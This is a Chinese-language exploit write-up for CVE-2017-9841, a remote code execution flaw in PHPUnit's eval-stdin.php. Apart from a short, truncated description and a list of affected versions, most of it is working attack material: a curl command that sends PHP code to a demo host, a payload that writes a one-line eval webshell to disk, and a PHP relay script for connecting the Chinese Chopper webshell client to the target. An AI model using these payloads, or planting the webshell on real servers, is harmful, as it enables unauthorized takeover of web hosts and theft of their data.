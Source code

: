 （CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。![1.png](./resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId24.png)![2.png](./resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId25.png)也可以直接写入一句话\*\*\<?=file\_put\_contents(\"1.php\",
\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*![3.png](./resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId26.png)![4.png](./resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId27.png)

### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
